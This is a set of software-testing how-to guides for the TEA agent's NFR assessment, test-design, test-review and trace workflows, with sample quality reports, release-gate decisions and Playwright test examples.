- All endpoints return structured JSON errors
- Error codes standardized (400, 401, 403, 404, 500)
- Error messages user-friendly (no stack traces)

**Chaos Engineering:**

- Tested database failover: 15s downtime ✅
- Tested service crash recovery: 3 min ✅
- Tested network partition: Graceful degradation ✅

**Monitoring:**

- Staging uptime (30 days): 99.95%
- Error rate: 0.01% (target: <0.1%)
- P50 availability: 100%

**Conclusion:** All reliability requirements exceeded. No issues.

---

## Maintainability Assessment

**Status:** PASS ✅

### Requirements Met

| Requirement           | Target     | Actual          | Status |
| --------------------- | ---------- | --------------- | ------ |
| Test coverage         | > 80%      | 85%             | ✅     |
| Code quality          | Grade A    | Grade A         | ✅     |
| Documentation         | All APIs   | 100% documented | ✅     |
| Outdated dependencies | < 6 months | 3 months avg    | ✅     |
| Technical debt        | < 10%      | 7%              | ✅     |

### Evidence

**Test Coverage:**

```
Statements   : 85.2% ( 1205/1414 )
Branches     : 82.1% ( 412/502 )
Functions    : 88.5% ( 201/227 )
Lines        : 85.2% ( 1205/1414 )
```

**Code Quality:**

- SonarQube: Grade A
- Maintainability rating: A
- Technical debt ratio: 7%
- Code smells: 12 (all minor)

**Documentation:**

- API docs: 100% coverage (OpenAPI spec)
- README: Complete and up-to-date
- Architecture docs: ADRs for all major decisions

**Conclusion:** All maintainability requirements met. Codebase is healthy.

---

## Overall Gate Decision

### Decision: CONCERNS ⚠️

**Rationale:**

- **Blockers:** None
- **Concerns:** Performance metrics below target (P99 latency, throughput)
- **Mitigation:** Plan in place with clear owners and deadlines (5 days total)
- **Passing:** Security, reliability, maintainability all green

### Actions Required Before Release

1. **Optimize database queries** (backend team, 3 days)
   - Add indexes
   - Fix N+1 queries
   - Implement connection pooling

2. **Re-run performance tests** (QA team, 1 day)
   - Validate P99 < 200ms
   - Validate throughput > 1000 rps

3. **Update this assessment** (TEA, 1 hour)
   - Re-run `*nfr-assess` with new results
   - Confirm PASS status

### Waiver Option (If Business Approves)

If business decides to deploy with current performance:

**Waiver Justification:**

```markdown
## Performance Waiver

**Waived By:** VP Engineering, Product Manager
**Date:** 2026-01-15
**Reason:** Business priority to launch by Q1
**Conditions:**

- Set monitoring alerts for P99 > 300ms
- Plan optimization for v1.3 (February release)
- Document known performance limitations in release notes

**Accepted Risk:**

- 1% of users experience slower response (350ms vs 200ms)
- System can handle current traffic (850 rps sufficient for launch)
- Optimization planned for next release
```

### Approvals

- [ ] Product Manager - Review business impact
- [ ] Tech Lead - Review mitigation plan
- [ ] QA Lead - Validate test evidence
- [ ] DevOps - Confirm infrastructure ready

---

## Monitoring Plan Post-Release

**Performance Alerts:**

- P99 latency > 400ms (critical)
- Throughput < 700 rps (warning)
- Error rate > 1% (critical)

**Review Cadence:**

- Daily: Check performance dashboards
- Weekly: Review alert trends
- Monthly: Re-assess NFRs

```

## What You Get

### NFR Assessment Report
- Category-by-category analysis (Security, Performance, Reliability, Maintainability)
- Requirements status (target vs actual)
- Evidence for each requirement
- Issues identified with root cause analysis

### Gate Decision
- **PASS** ✅ - All NFRs met, ready to release
- **CONCERNS** ⚠️ - Some NFRs not met, mitigation plan exists
- **FAIL** ❌ - Critical NFRs not met, blocks release
- **WAIVED** ⏭️ - Business-approved waiver with documented risk

### Mitigation Plans
- Specific actions to address concerns
- Owners and deadlines
- Re-assessment criteria

### Monitoring Plan
- Post-release monitoring strategy
- Alert thresholds
- Review cadence

## Tips

### Run NFR Assessment Early

**Phase 2 (Enterprise):**
Run `nfr-assess` during planning to:
- Identify NFR requirements early
- Plan for performance testing
- Budget for security audits
- Set up monitoring infrastructure

**Phase 4 or Gate:**
Re-run before release to validate all requirements met.

### Never Guess Thresholds

If you don't know the NFR target:

**Don't:**
```

API response time should probably be under 500ms

```

**Do:**
```

Mark as CONCERNS - Request threshold from stakeholders
"What is the acceptable API response time?"

````

### Collect Evidence Beforehand

Before running `*nfr-assess`, gather:

**Security:**
```bash
npm audit                    # Vulnerability scan
snyk test                    # Alternative security scan
npm run test:security        # Security test suite
````

**Performance:**

```bash
npm run test:load            # k6 or artillery load tests
npm run test:lighthouse      # Frontend performance
npm run test:db-performance  # Database query analysis
```

**Reliability:**

- Production error rate (last 30 days)
- Uptime data (StatusPage, PagerDuty)
- Incident response times

**Maintainability:**

```bash
npm run test:coverage        # Test coverage report
npm run lint                 # Code quality check
npm outdated                 # Dependency freshness
```

### Use Real Data, Not Assumptions

**Don't:**

```
System is probably fast enough
Security seems fine
```

**Do:**

```
Load test results show P99 = 350ms
npm audit shows 0 vulnerabilities
Test coverage report shows 85%
```

Evidence-based decisions prevent surprises in production.

### Document Waivers Thoroughly

If business approves waiver:

**Required:**

- Who approved (name, role, date)
- Why (business justification)
- Conditions (monitoring, future plans)
- Accepted risk (quantified impact)

**Example:**

```markdown
Waived by: CTO, VP Product (2026-01-15)
Reason: Q1 launch critical for investor demo
Conditions: Optimize in v1.3, monitor closely
Risk: 1% of users experience 350ms latency (acceptable for launch)
```

### Re-Assess After Fixes

After implementing mitigations:

```
1. Fix performance issues
2. Run load tests again
3. Run nfr-assess with new evidence
4. Verify PASS status
```

Don't deploy with CONCERNS without mitigation or waiver.

### Integrate with Release Checklist

```markdown
## Release Checklist

### Pre-Release

- [ ] All tests passing
- [ ] Test coverage > 80%
- [ ] Run nfr-assess
- [ ] NFR status: PASS or WAIVED

### Performance

- [ ] Load tests completed
- [ ] P99 latency meets threshold
- [ ] Throughput meets threshold

### Security

- [ ] Security scan clean
- [ ] Auth tests passing
- [ ] Penetration test complete

### Post-Release

- [ ] Monitoring alerts configured
- [ ] Dashboards updated
- [ ] Incident response plan ready
```

## Common Issues

### No Evidence Available

**Problem:** Don't have performance data, security scans, etc.

**Solution:**

```
Mark as CONCERNS for categories without evidence
Document what evidence is needed
Set up tests/scans before re-assessment
```

**Don't block on missing evidence** - document what's needed and proceed.

### Thresholds Too Strict

**Problem:** Can't meet unrealistic thresholds.

**Symptoms:**

- P99 < 50ms (impossible for complex queries)
- 100% test coverage (impractical)
- Zero technical debt (unrealistic)

**Solution:**

```
Negotiate thresholds with stakeholders:
- "P99 < 50ms is unrealistic for our DB queries"
- "Propose P99 < 200ms based on industry standards"
- "Show evidence from load tests"
```

Use data to negotiate realistic requirements.

### Assessment Takes Too Long

**Problem:** Gathering evidence for all categories is time-consuming.

**Solution:** Focus on critical categories first:

**For most projects:**

```
Priority 1: Security (always critical)
Priority 2: Performance (if high-traffic)
Priority 3: Reliability (if uptime critical)
Priority 4: Maintainability (nice to have)
```

Assess categories incrementally, not all at once.

### CONCERNS vs FAIL - When to Block?

**CONCERNS** ⚠️:

- Issues exist but not critical
- Mitigation plan in place
- Business accepts risk (with waiver)
- Can deploy with monitoring

**FAIL** ❌:

- Critical security vulnerability (CVE critical)
- System unusable (error rate >10%)
- Data loss risk (no backups)
- Zero mitigation possible

**Rule of thumb:** If you can mitigate or monitor, use CONCERNS. Reserve FAIL for absolute blockers.

## Related Guides

- [How to Run Trace](/brain/knowledge/docs_legacy/how-to/workflows/run-trace.md) - Gate decision complements NFR
- [How to Run Test Review](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md) - Quality complements NFR
- [Run TEA for Enterprise](/brain/knowledge/docs_legacy/how-to/brownfield/use-tea-for-enterprise.md) - Enterprise workflow

## Understanding the Concepts

- [Risk-Based Testing](/brain/knowledge/docs_legacy/explanation/risk-based-testing.md) - Risk assessment principles
- [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md) - NFR in release gates

## Reference

- [Command: \*nfr-assess](../bmad_repo/commands.md#nfr-assess) - Full command reference
- [TEA Configuration](configuration.md) - Enterprise config options

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md`
```markdown
---
title: 'How to Run Test Design with TEA'
description: How to create comprehensive test plans using TEA's test-design workflow
---

Use TEA's `test-design` workflow to create comprehensive test plans with risk assessment and coverage strategies.

## When to Use This

**System-level (Phase 3):**

- After architecture is complete
- Before implementation-readiness gate
- To validate architecture testability

**Epic-level (Phase 4):**

- At the start of each epic
- Before implementing stories in the epic
- To identify epic-specific testing needs

:::note[Prerequisites]

- BMad Method installed
- TEA agent available
- For system-level: Architecture document complete
- For epic-level: Epic defined with stories
  :::

## Steps

### 1. Load the TEA Agent

Start a fresh chat and load the TEA (Test Engineering Architect) agent.

### 2. Run the Test Design Workflow

```
test-design
```

### 3. Specify the Mode

TEA will ask if you want:

- **System-level** — For architecture testability review (Phase 3)
- **Epic-level** — For epic-specific test planning (Phase 4)

### 4. Provide Context

For system-level:

- Point to your architecture document
- Reference any ADRs (Architecture Decision Records)

For epic-level:

- Specify which epic you're planning
- Reference the epic file with stories

### 5. Review the Output

TEA generates test design document(s) based on mode.

## What You Get

**System-Level Output (TWO Documents):**

TEA produces two focused documents for system-level mode:

1. **`test-design-architecture.md`** (for Architecture/Dev teams)
   - Purpose: Architectural concerns, testability gaps, NFR requirements
   - Quick Guide with 🚨 BLOCKERS / ⚠️ HIGH PRIORITY / 📋 INFO ONLY
   - Risk assessment (high/medium/low-priority with scoring)
   - Testability concerns and architectural gaps
   - Risk mitigation plans for high-priority risks (≥6)
   - Assumptions and dependencies

2. **`test-design-qa.md`** (for QA team)
   - Purpose: Test execution recipe, coverage plan, Sprint 0 setup
   - Quick Reference for QA (Before You Start, Execution Order, Need Help)
   - System architecture summary
   - Test environment requirements (moved up - early in doc)
   - Testability assessment (prerequisites checklist)
   - Test levels strategy (unit/integration/E2E split)
   - Test coverage plan (P0/P1/P2/P3 with detailed scenarios + checkboxes)
   - Sprint 0 setup requirements (blockers, infrastructure, environments)
   - NFR readiness summary

**Why Two Documents?**

- **Architecture teams** can scan blockers in <5 min (Quick Guide format)
- **QA teams** have actionable test recipes (step-by-step with checklists)
- **No redundancy** between documents (cross-references instead of duplication)
- **Clear separation** of concerns (what to deliver vs how to test)

**Epic-Level Output (ONE Document):**

**`test-design-epic-N.md`** (combined risk assessment + test plan)

- Risk assessment for the epic
- Test priorities (P0-P3)
- Coverage plan
- Regression hotspots (for brownfield)
- Integration risks
- Mitigation strategies

## Test Design for Different Tracks

| Track          | Phase 3 Focus                         | Phase 4 Focus                          |
| -------------- | ------------------------------------- | -------------------------------------- |
| **Greenfield** | System-level testability review       | Per-epic risk assessment and test plan |
| **Brownfield** | System-level + existing test baseline | Regression hotspots, integration risks |
| **Enterprise** | Compliance-aware testability          | Security/performance/compliance focus  |

## Examples

**System-Level (Two Documents):**

- `cluster-search/cluster-search-test-design-architecture.md` - Architecture doc with Quick Guide
- `cluster-search/cluster-search-test-design-qa.md` - QA doc with test scenarios

**Key Pattern:**

- Architecture doc: "ASR-1: OAuth 2.1 required (see QA doc for 12 test scenarios)"
- QA doc: "OAuth tests: 12 P0 scenarios (see Architecture doc R-001 for risk details)"
- No duplication, just cross-references

## Tips

- **Run system-level right after architecture** — Early testability review
- **Run epic-level at the start of each epic** — Targeted test planning
- **Update if ADRs change** — Keep test design aligned
- **Use output to guide other workflows** — Feeds into `atdd` and `automate`
- **Architecture teams review Architecture doc** — Focus on blockers and mitigation plans
- **QA teams use QA doc as implementation guide** — Follow test scenarios and Sprint 0 checklist

## Next Steps

After test design:

1. **Setup Test Framework** — If not already configured
2. **Implementation Readiness** — System-level feeds into gate check
3. **Story Implementation** — Epic-level guides testing during dev
```

## File: `brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md`
```markdown
---
title: 'How to Run Test Review with TEA'
description: Audit test quality using TEA's comprehensive knowledge base and get 0-100 scoring
---

# How to Run Test Review with TEA

Use TEA's `test-review` workflow to audit test quality with objective scoring and actionable feedback. TEA reviews tests against its knowledge base of best practices.

Coverage scoring is intentionally excluded from `test-review`. Use `trace` for requirements coverage analysis and coverage gate decisions.

## When to Use This

- Want to validate test quality objectively
- Need quality metrics for test quality gates
- Preparing for production deployment
- Reviewing team-written tests
- Auditing AI-generated tests
- Onboarding new team members (show good patterns)
- Validating migration quality before coverage expansion

## Prerequisites

- BMad Method installed
- TEA agent available
- Tests written (to review)
- Test framework configured

## Steps

### 1. Load TEA Agent

Start a fresh chat and load TEA:

```
tea
```

### 2. Run the Test Review Workflow

```
test-review
```

### 3. Specify Review Scope

TEA will ask what to review.

#### Option A: Single File

Review one test file:

```
tests/e2e/checkout.spec.ts
```

**Best for:**

- Reviewing specific failing tests
- Quick feedback on new tests
- Learning from specific examples

#### Option B: Directory

Review all tests in a directory:

```
tests/e2e/
```

**Best for:**

- Reviewing E2E test suite
- Comparing test quality across files
- Finding patterns of issues

#### Option C: Entire Suite

Review all tests:

```
tests/
```

**Best for:**

- Release gate quality check
- Comprehensive audit
- Establishing baseline metrics

### 4. Review the Quality Report

TEA generates a comprehensive quality report with scoring.

#### Report Structure (`test-review.md`):

````markdown
# Test Quality Review Report

**Date:** 2026-01-13
**Scope:** tests/e2e/
**Overall Score:** 76/100

## Summary

- **Tests Reviewed:** 12
- **Passing Quality:** 9 tests (75%)
- **Needs Improvement:** 3 tests (25%)
- **Critical Issues:** 2
- **Recommendations:** 6

## Critical Issues

### 1. Hard Waits Detected

**File:** `tests/e2e/checkout.spec.ts:45`
**Issue:** Using `page.waitForTimeout(3000)`
**Impact:** Test is flaky and unnecessarily slow
**Severity:** Critical

**Current Code:**

```typescript
await page.click('button[type="submit"]');
await page.waitForTimeout(3000); // ❌ Hard wait
await expect(page.locator('.success')).toBeVisible();
```
````

**Fix:**

```typescript
await page.click('button[type="submit"]');
// Wait for the API response that triggers success message
await page.waitForResponse((resp) => resp.url().includes('/api/checkout') && resp.ok());
await expect(page.locator('.success')).toBeVisible();
```

**Why This Matters:**

- Hard waits are fixed timeouts that don't wait for actual conditions
- Tests fail intermittently on slower machines
- Wastes time waiting even when response is fast
- Network-first patterns are more reliable

---

### 2. Conditional Flow Control

**File:** `tests/e2e/profile.spec.ts:28`
**Issue:** Using if/else to handle optional elements
**Impact:** Non-deterministic test behavior
**Severity:** Critical

**Current Code:**

```typescript
if (await page.locator('.banner').isVisible()) {
  await page.click('.dismiss');
}
// ❌ Test behavior changes based on banner presence
```

**Fix:**

```typescript
// Option 1: Make banner presence deterministic
await expect(page.locator('.banner')).toBeVisible();
await page.click('.dismiss');

// Option 2: Test both scenarios separately
test('should show banner for new users', async ({ page }) => {
  // Test with banner
});

test('should not show banner for returning users', async ({ page }) => {
  // Test without banner
});
```

**Why This Matters:**

- Tests should be deterministic (same result every run)
- Conditionals hide bugs (what if banner should always show?)
- Makes debugging harder
- Violates test isolation principle

## Recommendations

### 1. Extract Repeated Setup

**File:** `tests/e2e/profile.spec.ts`
**Issue:** Login code duplicated in every test
**Severity:** Medium
**Impact:** Maintenance burden, test verbosity

**Current:**

```typescript
test('test 1', async ({ page }) => {
  await page.goto('/login');
  await page.fill('[name="email"]', 'test@example.com');
  await page.fill('[name="password"]', 'password');
  await page.click('button[type="submit"]');
  // Test logic...
});

test('test 2', async ({ page }) => {
  // Same login code repeated
});
```

**Fix (Vanilla Playwright):**

```typescript
// Create fixture in tests/support/fixtures/auth.ts
import { test as base, Page } from '@playwright/test';

export const test = base.extend<{ authenticatedPage: Page }>({
  authenticatedPage: async ({ page }, use) => {
    await page.goto('/login');
    await page.getByLabel('Email').fill('test@example.com');
    await page.getByLabel('Password').fill('password');
    await page.getByRole('button', { name: 'Sign in' }).click();
    await page.waitForURL(/\/dashboard/);
    await use(page);
  },
});

// Use in tests
test('test 1', async ({ authenticatedPage }) => {
  // Already logged in
});
```

**Better (With Playwright Utils):**

```typescript
// Use built-in auth-session fixture
import { test as base } from '@playwright/test';
import { createAuthFixtures } from '@seontechnologies/playwright-utils/auth-session';

export const test = base.extend(createAuthFixtures());

// Use in tests - even simpler
test('test 1', async ({ page, authToken }) => {
  // authToken already available (persisted, reused)
  await page.goto('/dashboard');
  // Already authenticated via authToken
});
```

**Playwright Utils Benefits:**

- Token persisted to disk (faster subsequent runs)
- Multi-user support out of the box
- Automatic token renewal if expired
- No manual login flow needed

---

### 2. Add Network Assertions

**File:** `tests/e2e/api-calls.spec.ts`
**Issue:** No verification of API responses
**Severity:** Low
**Impact:** Tests don't catch API errors

**Current:**

```typescript
await page.click('button[name="save"]');
await expect(page.locator('.success')).toBeVisible();
// ❌ What if API returned 500 but UI shows cached success?
```

**Enhancement:**

```typescript
const responsePromise = page.waitForResponse((resp) => resp.url().includes('/api/profile') && resp.status() === 200);
await page.click('button[name="save"]');
const response = await responsePromise;

// Verify API response
const data = await response.json();
expect(data.success).toBe(true);

// Verify UI
await expect(page.locator('.success')).toBeVisible();
```

---

### 3. Improve Test Names

**File:** `tests/e2e/checkout.spec.ts`
**Issue:** Vague test names
**Severity:** Low
**Impact:** Hard to understand test purpose

**Current:**

```typescript
test('should work', async ({ page }) => {});
test('test checkout', async ({ page }) => {});
```

**Better:**

```typescript
test('should complete checkout with valid credit card', async ({ page }) => {});
test('should show validation error for expired card', async ({ page }) => {});
```

## Quality Scores by Category

| Category            | Score | Target | Status               |
| ------------------- | ----- | ------ | -------------------- |
| **Determinism**     | 72    | 80     | ⚠️ Needs Improvement |
| **Isolation**       | 88    | 80     | ✅ Good              |
| **Maintainability** | 70    | 80     | ⚠️ Needs Improvement |
| **Performance**     | 60    | 80     | ❌ Critical          |

### Scoring Breakdown

**Determinism (30% weight):**

- Hard waits and race conditions penalized
- Unstable control flow patterns penalized

**Isolation (30% weight):**

- Shared state and order dependency penalized
- Cleanup and parallel-safety rewarded

**Maintainability (25% weight):**

- Overly large files and copy-paste patterns penalized
- Naming clarity and structure rewarded

**Performance (15% weight):**

- Serial bottlenecks and inefficient setup penalized
- Parallel-friendly structure rewarded

## Files Reviewed

| File                         | Score  | Issues | Status               |
| ---------------------------- | ------ | ------ | -------------------- |
| `tests/e2e/checkout.spec.ts` | 65/100 | 4      | ❌ Needs Work        |
| `tests/e2e/profile.spec.ts`  | 72/100 | 3      | ⚠️ Needs Improvement |
| `tests/e2e/search.spec.ts`   | 88/100 | 1      | ✅ Good              |
| `tests/api/profile.spec.ts`  | 92/100 | 0      | ✅ Excellent         |

## Next Steps

### Immediate (Fix Critical Issues)

1. Remove hard waits in `checkout.spec.ts` (line 45, 67, 89)
2. Fix conditional in `profile.spec.ts` (line 28)
3. Optimize slow tests in `checkout.spec.ts`

### Short-term (Apply Recommendations)

4. Extract login fixture from `profile.spec.ts`
5. Add network assertions to `api-calls.spec.ts`
6. Improve test names in `checkout.spec.ts`

### Long-term (Continuous Improvement)

7. Re-run `test-review` after fixes (target: 85/100)
8. Add performance budgets to CI
9. Document test patterns for team

## Knowledge Base References

TEA reviewed against these patterns:

- [test-quality.md](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - Execution limits, isolation
- [network-first.md](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - Deterministic waits
- [timing-debugging.md](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - Race conditions
- [selector-resilience.md](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - Robust selectors

````

## Understanding the Scores

### What Do Scores Mean?

| Score Range | Interpretation | Action |
|-------------|----------------|--------|
| **90-100** | Excellent | Minimal changes needed, production-ready |
| **80-89** | Good | Minor improvements recommended |
| **70-79** | Acceptable | Address recommendations before release |
| **60-69** | Needs Improvement | Fix critical issues, apply recommendations |
| **< 60** | Critical | Significant refactoring needed |

### Scoring Criteria

**Determinism (30%):**
- Tests produce same result every run
- No random failures (flakiness)
- No environment-dependent behavior

**Isolation (30%):**
- Tests don't depend on each other
- Can run in any order
- Clean up after themselves

**Maintainability (25%):**
- Readable and maintainable
- Appropriate size
- Clear naming

**Performance (15%):**
- Fast execution
- Efficient selectors
- No unnecessary waits

**Coverage:**
- Not scored in `test-review`
- Use `trace` for coverage percentage, requirement mapping, and gate decisions

## What You Get

### Quality Report
- Overall score (0-100)
- Category scores (Determinism, Isolation, etc.)
- File-by-file breakdown

### Critical Issues
- Specific line numbers
- Code examples (current vs fixed)
- Why it matters explanation
- Impact assessment

### Recommendations
- Actionable improvements
- Code examples
- Priority/severity levels

### Next Steps
- Immediate actions (fix critical)
- Short-term improvements
- Long-term quality goals

## Tips

### Review Before Release

Make test review part of release checklist:

```markdown
## Quality Checklist (Test-Review)
- [ ] All tests passing
- [ ] Test-review quality score > 80
- [ ] Critical issues resolved
- [ ] Performance within budget
````

### Review After AI Generation

Always review AI-generated tests:

```
1. Run atdd or automate
2. Run test-review on generated tests
3. Fix critical issues
4. Commit tests
```

### Set Quality Gates

Use scores as quality gates:

```yaml
# .github/workflows/test.yml
- name: Review test quality
  run: |
    # Run test-review quality gate
    # Parse quality score from report
    if [ $SCORE -lt 80 ]; then
      echo "Test-review quality gate below threshold"
      exit 1
    fi
```

Coverage gate checks are handled by `trace`, not `test-review`.

### Review Regularly

Schedule periodic reviews:

- **Per story:** Optional (spot check new tests)
- **Per epic:** Recommended (ensure consistency)
- **Per release:** Recommended for test quality gates (coverage gates remain in `trace`)
- **Quarterly:** Audit entire suite

### Focus Reviews

For large suites, review incrementally:

**Week 1:** Review E2E tests
**Week 2:** Review API tests
**Week 3:** Review component tests (Cypress CT or Vitest)
**Week 4:** Apply fixes across all suites

**Component Testing Note:** TEA reviews component tests using framework-specific knowledge:

- **Cypress:** Reviews Cypress Component Testing specs (\*.cy.tsx)
- **Playwright:** Reviews Vitest component tests (\*.test.tsx)

### Use Reviews for Learning

Share reports with team:

```
Team Meeting:
- Review test-review.md
- Discuss critical issues
- Agree on patterns
- Update team guidelines
```

### Compare Over Time

Track improvement:

```markdown
## Quality Trend

| Date       | Score | Critical Issues | Notes                 |
| ---------- | ----- | --------------- | --------------------- |
| 2026-01-01 | 65    | 5               | Baseline              |
| 2026-01-15 | 72    | 2               | Fixed hard waits      |
| 2026-02-01 | 84    | 0               | All critical resolved |
```

## Common Issues

### Low Determinism Score

**Symptoms:**

- Tests fail randomly
- "Works on my machine"
- CI failures that don't reproduce locally

**Common Causes:**

- Hard waits (`waitForTimeout`)
- Conditional flow control (`if/else`)
- Try-catch for flow control
- Missing network-first patterns

**Fix:** Review determinism section, apply network-first patterns

### Low Performance Score

**Symptoms:**

- Tests take > 1.5 minutes each
- Test suite takes hours
- CI times out

**Common Causes:**

- Unnecessary waits (hard timeouts)
- Inefficient selectors (XPath, complex CSS)
- Not using parallelization
- Heavy setup in every test

**Fix:** Optimize waits, improve selectors, use fixtures

### Low Isolation Score

**Symptoms:**

- Tests fail when run in different order
- Tests fail in parallel
- Test data conflicts

**Common Causes:**

- Shared global state
- Tests don't clean up
- Hard-coded test data
- Database not reset between tests

**Fix:** Use fixtures, clean up in afterEach, use unique test data

### "Too Many Issues to Fix"

**Problem:** Report shows 50+ issues, overwhelming.

**Solution:** Prioritize:

1. Fix all critical issues first
2. Apply top 3 recommendations
3. Re-run review
4. Iterate

Don't try to fix everything at once.

### Reviews Take Too Long

**Problem:** Reviewing entire suite takes hours.

**Solution:** Review incrementally:

- Review new tests in PR review
- Schedule directory reviews weekly
- Full suite review quarterly

## Related Guides

- [How to Run ATDD](/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md) - Generate tests to review
- [How to Run Automate](/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md) - Expand and improve tests before review
- [How to Run Trace](/brain/knowledge/docs_legacy/how-to/workflows/run-trace.md) - Coverage analysis and gate decisions

## Understanding the Concepts

- [Test Quality Standards](/brain/knowledge/docs_legacy/explanation/test-quality-standards.md) - What makes tests good
- [Network-First Patterns](/brain/knowledge/docs_legacy/explanation/network-first-patterns.md) - Avoiding flakiness
- [Fixture Architecture](/brain/knowledge/docs_legacy/explanation/fixture-architecture.md) - Reusable patterns

## Reference

- [Command: \*test-review](../bmad_repo/commands.md#test-review) - Full command reference
- [Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - Patterns TEA reviews against

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/how-to/workflows/run-trace.md`
```markdown
---
title: 'How to Run Trace with TEA'
description: Map requirements to tests and make quality gate decisions using TEA's trace workflow
---

# How to Run Trace with TEA

Use TEA's `trace` workflow for requirements traceability and quality gate decisions. This is a two-phase workflow: Phase 1 analyzes coverage, Phase 2 makes the go/no-go decision.

## When to Use This

### Phase 1: Requirements Traceability

- Map acceptance criteria to implemented tests
- Identify coverage gaps
- Prioritize missing tests
- Refresh coverage after each story/epic

### Phase 2: Quality Gate Decision

- Make go/no-go decision for release
- Validate coverage meets thresholds
- Document gate decision with evidence
- Support business-approved waivers

## Prerequisites

- BMad Method installed
- TEA agent available
- Requirements defined (stories, acceptance criteria, test design)
- Tests implemented
- For brownfield: Existing codebase with tests

## Steps

### 1. Run the Trace Workflow

```
trace
```

### 2. Specify Phase

TEA will ask which phase you're running.

**Phase 1: Requirements Traceability**

- Analyze coverage
- Identify gaps
- Generate recommendations

**Phase 2: Quality Gate Decision**

- Make PASS/CONCERNS/FAIL/WAIVED decision
- Requires Phase 1 complete

**Typical flow:** Run Phase 1 first, review gaps, then run Phase 2 for gate decision.

---

## Phase 1: Requirements Traceability

### 3. Provide Requirements Source

TEA will ask where requirements are defined.

**Options:**

| Source          | Example                       | Best For               |
| --------------- | ----------------------------- | ---------------------- |
| **Story file**  | `story-profile-management.md` | Single story coverage  |
| **Test design** | `test-design-epic-1.md`       | Epic coverage          |
| **PRD**         | `PRD.md`                      | System-level coverage  |
| **Multiple**    | All of the above              | Comprehensive analysis |

**Example Response:**

```
Requirements:
- story-profile-management.md (acceptance criteria)
- test-design-epic-1.md (test priorities)
```

### 4. Specify Test Location

TEA will ask where tests are located.

**Example:**

```
Test location: tests/
Include:
- tests/api/
- tests/e2e/
```

### 5. Specify Focus Areas (Optional)

**Example:**

```
Focus on:
- Profile CRUD operations
- Validation scenarios
- Authorization checks
```

### 6. Review Coverage Matrix

TEA generates a comprehensive traceability matrix.

#### Traceability Matrix (`traceability-matrix.md`):

````markdown
# Requirements Traceability Matrix

**Date:** 2026-01-13
**Scope:** Epic 1 - User Profile Management
**Phase:** Phase 1 (Traceability Analysis)

## Coverage Summary

| Metric                 | Count | Percentage |
| ---------------------- | ----- | ---------- |
| **Total Requirements** | 15    | 100%       |
| **Full Coverage**      | 11    | 73%        |
| **Partial Coverage**   | 3     | 20%        |
| **No Coverage**        | 1     | 7%         |

### By Priority

| Priority | Total | Covered | Percentage         |
| -------- | ----- | ------- | ------------------ |
| **P0**   | 5     | 5       | 100% ✅            |
| **P1**   | 6     | 5       | 83% ⚠️             |
| **P2**   | 3     | 1       | 33% ⚠️             |
| **P3**   | 1     | 0       | 0% ✅ (acceptable) |

---

## Detailed Traceability

### ✅ Requirement 1: User can view their profile (P0)

**Acceptance Criteria:**

- User navigates to /profile
- Profile displays name, email, avatar
- Data is current (not cached)

**Test Coverage:** FULL ✅

**Tests:**

- `tests/e2e/profile-view.spec.ts:15` - "should display profile page with current data"
  - ✅ Navigates to /profile
  - ✅ Verifies name, email visible
  - ✅ Verifies avatar displayed
  - ✅ Validates data freshness via API assertion

- `tests/api/profile.spec.ts:8` - "should fetch user profile via API"
  - ✅ Calls GET /api/profile
  - ✅ Validates response schema
  - ✅ Confirms all fields present

---

### ⚠️ Requirement 2: User can edit profile (P0)

**Acceptance Criteria:**

- User clicks "Edit Profile"
- Can modify name, email, bio
- Can upload avatar
- Changes are persisted
- Success message shown

**Test Coverage:** PARTIAL ⚠️

**Tests:**

- `tests/e2e/profile-edit.spec.ts:22` - "should edit and save profile"
  - ✅ Clicks edit button
  - ✅ Modifies name and email
  - ⚠️ **Does NOT test bio field**
  - ❌ **Does NOT test avatar upload**
  - ✅ Verifies persistence
  - ✅ Verifies success message

- `tests/api/profile.spec.ts:25` - "should update profile via PATCH"
  - ✅ Calls PATCH /api/profile
  - ✅ Validates update response
  - ⚠️ **Only tests name/email, not bio/avatar**

**Missing Coverage:**

- Bio field not tested in E2E or API
- Avatar upload not tested

**Gap Severity:** HIGH (P0 requirement, critical path)

---

### ✅ Requirement 3: Invalid email shows validation error (P1)

**Acceptance Criteria:**

- Enter invalid email format
- See error message
- Cannot save changes

**Test Coverage:** FULL ✅

**Tests:**

- `tests/e2e/profile-edit.spec.ts:45` - "should show validation error for invalid email"
- `tests/api/profile.spec.ts:50` - "should return 400 for invalid email"

---

### ❌ Requirement 15: Profile export as PDF (P2)

**Acceptance Criteria:**

- User clicks "Export Profile"
- PDF downloads with profile data

**Test Coverage:** NONE ❌

**Gap Analysis:**

- **Priority:** P2 (medium)
- **Risk:** Low (non-critical feature)
- **Recommendation:** Add in next iteration (not blocking for release)

---

## Gap Prioritization

### Critical Gaps (Must Fix Before Release)

| Gap | Requirement              | Priority | Risk | Recommendation      |
| --- | ------------------------ | -------- | ---- | ------------------- |
| 1   | Bio field not tested     | P0       | High | Add E2E + API tests |
| 2   | Avatar upload not tested | P0       | High | Add E2E + API tests |

**Estimated Effort:** 3 hours
**Owner:** QA team
**Deadline:** Before release

### Non-Critical Gaps (Can Defer)

| Gap | Requirement               | Priority | Risk | Recommendation      |
| --- | ------------------------- | -------- | ---- | ------------------- |
| 3   | Profile export not tested | P2       | Low  | Add in v1.3 release |

**Estimated Effort:** 2 hours
**Owner:** QA team
**Deadline:** Next release (February)

---

## Recommendations

### 1. Add Bio Field Tests

**Tests Needed (Vanilla Playwright):**

```typescript
// tests/e2e/profile-edit.spec.ts
test('should edit bio field', async ({ page }) => {
  await page.goto('/profile');
  await page.getByRole('button', { name: 'Edit' }).click();
  await page.getByLabel('Bio').fill('New bio text');
  await page.getByRole('button', { name: 'Save' }).click();
